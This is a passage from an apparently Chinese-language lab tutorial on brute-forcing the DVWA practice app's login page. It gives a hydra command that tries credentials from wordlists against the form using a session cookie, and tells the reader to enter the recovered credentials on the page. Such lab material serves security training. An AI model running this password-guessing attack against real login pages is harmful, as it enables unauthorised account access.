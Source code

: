        ![img](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/penetration_img/st_2.png)

    - 我们使用如下语句(修改ip,port,PHPSESSID的值)
  
     - `hydra -L name.txt -P passwd.txt -f ip -s port http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:incorrect.:H=Cookie: PHPSESSID=edbmt90g2ps4j1i17nu086qst5;security=low;"`
  
- 预期结果
  - 返回的结果,填入网站页面
  
     ![img](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/penetration_img/st_3.png)
  